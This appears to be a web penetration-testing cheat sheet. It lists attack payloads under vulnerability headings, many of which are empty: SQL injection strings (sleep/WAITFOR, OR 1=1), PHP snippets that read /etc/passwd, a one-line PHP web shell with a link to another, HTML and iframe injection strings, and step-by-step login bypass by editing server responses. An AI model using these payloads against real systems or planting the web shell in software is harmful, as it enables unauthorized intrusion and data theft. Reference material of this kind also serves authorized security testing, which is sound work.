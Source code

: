 ### Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```
### Error Based SQL Injection:

### Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
### Local File Inclusion (LFI):
```


```
### Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("cat /etc/passwd");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
### Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
### Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
### File Upload Bypass:
```
```
### Session Hijacking:
```

```
### Session Fixation in The Application
### Application is Vulnerable to Forceful Browsing
### Insecure Direct Object Reference
### URL Redirection in the application:
### Reflected Cross Site Scripting Attack
### HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
### Link Injection:
```
<a href="https://www.intelliroot.com">Test</a>
```
### Iframe Injection:
```
<iframe src="https://https://www.intelliroot.com"></iframe>
```
### Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
### Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "respnse to this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "respnse to this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
### Cross Site Request Forgery (CSRF)
### Restricted Functionality Access in the Application
### Parameter Manipulation
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application
